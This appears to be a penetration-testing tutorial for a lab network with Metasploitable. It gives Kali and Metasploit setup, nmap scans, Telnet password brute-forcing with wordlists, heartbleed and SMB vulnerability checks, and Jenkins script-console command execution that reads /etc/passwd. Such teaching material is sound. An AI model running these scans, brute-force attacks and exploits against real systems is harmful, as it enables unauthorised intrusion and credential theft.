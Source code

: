 Finding Low Hanging Fruit with Kali
===================================
How to Get Kali
---------------
Kali is available for download at http://kali.org/downloads

Setup Kali for First Use
------------------------
Run `apt-get update` to get the latest package lists.
Run `apt-get upgrade` to install the latest packages.
Some packages may be held back, install those packages using `apt-get dist-upgrade` or `apt-get install <package_name>`.
Use `apt-get autoremove` to remove packages that are no longer needed.

Setup Metasploit for First Use
------------------------------
Start the Postgres and Metasploit services

    service postgresql start
    service metasploit start

To have the Postgres and Metasploit services start up at boot time.

    update-rc.d postgresql enable
    update-rc.d metasploit enable

Unnecessary Services
--------------------
TCP scan against 10.1.1.4-254

    nmap 10.1.1.4-254

UDP scan of top ten ports against 10.1.1.4-254

    nmap -sU --top-ports 10.1.1.4-254

Aggressive scan against 10.1.14-254 and save to an XML file.

    nmap -A -oX local_network.xml 10.1.1.4-254

Import the scan results into Metasploit

    msfconsole
    db_import local_network.xml
    hosts
    services
    services -p 23

Finding Weak Passwords
----------------------
Look at the wordlists in the wordlists folder

    cd /usr/share/wordlists
    ls
    sudo gunzip rockyou.txt.gz

Brute-force the Telnet service on Metasploitable

    use auxiliary/scanner/telnet/telnet_login
    show options
    set USERNAME msfadmin
    set PASS_FILE /usr/share wordlists/fasttrack.txt
    set USER_AS_PASS true
    set BLANK_PASSWORDS true
    services -p 23 -R
    run

Exploitable Vulnerabilities
---------------------------
Find heartbleed vulnerabilities

    nmap -p 443 --script=ssl-heartbleed 10.1.1.4-254

Find SMB vulnerabilities

    nmap --script=smb-check-vulns 10.1.1.4-254  # Unsafe warning
    nmap --script=smb-check-vulns --script-args=unsafe=1 10.1.1.4-254

Web-Based Admin Interfaces
--------------------------
Find the Jenkins interface

    nmap -A -p 80,443,5800,8000,8080 10.1.1.4-254

Once we find Jenkins go to the admin interface and look for the script console.

    proc = [‘cat’, ‘/etc/passwd’].execute()
    println proc.in.txt

Metasploit also has a module for this.

    use exploit/multi/http/jenkins_script_console
    show options
    set RHOST 10.1.1.7
    set RPORT 8080
    set TARGETURI /
    show targets
    set TARGET 1
    exploit

Metasploit has a lot of exploits for web interfaces

    search /http/
